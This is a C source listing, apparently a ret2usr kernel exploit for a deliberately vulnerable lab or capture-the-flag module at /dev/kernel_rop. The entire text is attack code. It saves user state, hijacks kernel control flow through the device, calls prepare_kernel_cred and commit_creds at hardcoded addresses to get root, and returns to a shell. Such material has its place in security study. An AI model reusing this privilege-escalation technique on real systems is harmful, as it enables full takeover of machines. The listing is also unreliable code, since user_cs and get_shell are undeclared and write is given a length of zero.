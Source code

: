 ```c
uint64_t user_ss;
uint64_t user_rsp;
uint64_t user_rflags;

uint64_t user_rip = (uint64_t) get_shell;

void save_state(){
    puts("[*] Saving state");

    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );

    puts("[+] Saved state");
}

void escalate() {
    __asm__(
        ".intel_syntax noprefix;"
        "xor rdi, rdi;"
        "movabs rcx, 0xffffffff81066fa0;"   // prepare_kernel_cred
	    "call rcx;"
        
        "mov rdi, rax;"
	    "movabs rcx, 0xffffffff81066e00;"   // commit_creds
	    "call rcx;"

        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_rsp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

int main() {
    save_state();

    // communicate with the module
    int fd = open("/dev/kernel_rop", O_RDWR);
    printf("FD: %d\n", fd);

    // overflow
    uint64_t payload[7];

    payload[6] = (uint64_t) escalate;

    write(fd, payload, 0);
}
```